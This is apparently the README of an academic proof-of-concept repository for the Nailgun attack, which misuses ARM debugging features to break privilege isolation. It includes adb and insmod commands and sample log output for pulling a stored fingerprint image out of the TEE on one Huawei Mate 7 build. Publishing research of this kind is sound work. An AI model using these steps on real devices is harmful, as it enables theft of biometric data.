 
# Nailgun: Break the privilege isolation in ARM devices

## Overview
Processors nowadays are consistently equipped with debugging features to facilitate the program debugging and analysis. Specifically, the ARM debugging architecture involves a series of CoreSight components and debug registers to aid the system debugging, but the security of the debugging features is under-examined since it normally requires physical access to use these features in the traditional debugging model.

The idea of Nailgun Attack is to misuse the debugging architecture with the inter-processor debugging model. In the inter-processor debugging model, a processor (debug host) is able to pause and debug another processor (debug target) on the same chip even when the debug target owns a higher privilege. With Nailgun, we are able to obtain sensitive information and achieve arbitrary payload execution in a high-privilege mode.

For more details, please check our website http://compass.cs.wayne.edu/nailgun

## Proof of Concept
We will make two PoCs available on Github:

### PoC1: Reading  _SCR_EL3_  register with a kernel module.
  
### PoC2:  Extracting the fingerprint image.
In this PoC, we use a kernel module running in non-secure EL1 to extract the fingerprint image
stored in TEE on Huawei Mate 7. The fold ```PoC/Fingerprint_Extraction``` contains the source code for the kernel module that extracts fingerprint data from TEE, a prebuild binary of the kernel module, and a python script to convert the extracted image data to a PNG file.
**Note that the source code and prebuild binary works on Huawei Mate 7 (MT7-L09) Build MT7-L09V100R001C00B121SP05**

#### Prepare
- Make sure you have scanned a fingerprint with the fingerprint sensor.
- Enable USB debugging on your phone and connect it to your PC. (**Nailgun attack doesn't require physical access to the phone, the connection is only used for transferring the binary to the phone and moving the output log to the PC.**)
#### Run

Firstly, push the prebuild binary into the phone
```
adb push nailgun.ko /sdcard/
```
Next, in the _adb shell_ console of the phone, install the kernel module
```
adb shell
shell@hwmt7:/ $ su
root@hwmt7:/ # insmod /sdcard/nailgun.ko
```
Check the kernel log with _dmesg_ command
```
root@hwmt7:/ # dmesg
```
If you can find the fingerprint data similar to this
```
<6>[   51.284149] [0.1, swapper/1] --------------------
<6>[   51.284210] [0.1, swapper/1] 2ef5efac: 412f0100 87796552 e8e2dfd4 eff0eeea
<6>[   51.284240] [0.1, swapper/1] 2ef5efbc: f3f3f3f3 f3f1f8f6 f3f3f2f1 eff4f4f8
<6>[   51.284301] [0.1, swapper/1] 2ef5efcc: f1f0f2f0 f1f0eff3 f1f1efee efeff0ee
<6>[   51.284332] [0.1, swapper/1] 2ef5efdc: e7ecefeb e8e9e8ed e6e4e3e6 e1e5e5e6
<6>[   51.284393] [0.1, swapper/1] 2ef5efec: e9e5e6e4 dfe3e3e6 e4e5e5e2 e0e3e3e3
<6>[   51.284423] [0.1, swapper/1] 2ef5effc: dee1e3e2 e8e6e1df eae8e6e7 eaeceeeb
<6>[   51.284484] [0.1, swapper/1] 2ef5f00c: e5e3e5e5 edebe6e7 edefeff1 f1eeeff0
<6>[   51.284515] [0.1, swapper/1] 2ef5f01c: e7eaebea e9e9e8e5 e6e7eaeb e4e5e4e2
<6>[   51.284576] [0.1, swapper/1] 2ef5f02c: e7e9e8e8 e5e6e7e6 e7eae7ea e2e4e4e5
```
then the PoC works.
Next, dump the kernel log to file, and extract the file from the phone to your PC
```
root@hwmt7:/ # dmesg > /sdcard/nailgun.log
root@hwmt7:/ # exit
shell@hwmt7:/ $ exit
adb pull /sdcard/nailgun.log .
```
Finally, use the python script to convert the fingerprint data to a PNG file
```
python log2image.py nailgun.log
```
You will find a file named _fingerprint.png_ with the extracted fingerprint image.

## Publication
```
@InProceedings{nailgun19,
	Title = {Understanding the security of ARM debugging features},
	Author = {Zhenyu Ning and Fengwei Zhang},
	Booktitle = {Proceedings of the 40th IEEE Symposium on Security and Privacy (S&P'19)},
	Year = {2019}
}
```

## Contact
Zhenyu Ning  
zhenyu.ning _at_ wayne.edu  
Compass Lab, Wayne State University (http://compass.cs.wayne.edu)
